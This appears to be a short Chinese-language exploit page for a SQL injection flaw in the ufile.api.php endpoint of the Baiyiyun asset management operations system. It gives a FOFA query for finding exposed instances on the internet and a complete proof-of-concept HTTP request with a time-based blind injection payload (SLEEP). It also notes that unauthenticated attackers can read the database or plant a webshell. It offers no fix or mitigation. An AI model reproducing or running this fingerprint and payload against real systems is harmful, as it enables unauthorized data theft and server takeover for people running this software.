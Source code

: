 # 百易云资产管理运营系统ufile.api.php存在SQL注入漏洞

百易云资产管理运营系统ufile.api.php存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

## fofa

```yaml
body="不要着急，点此"
```

## poc

```javascript
GET /api/file/ufile.api.php?act=filedel&fid=1%20AND%20(SELECT%207357%20FROM%20(SELECT(SLEEP(2)))UPCw) HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410231039295.png)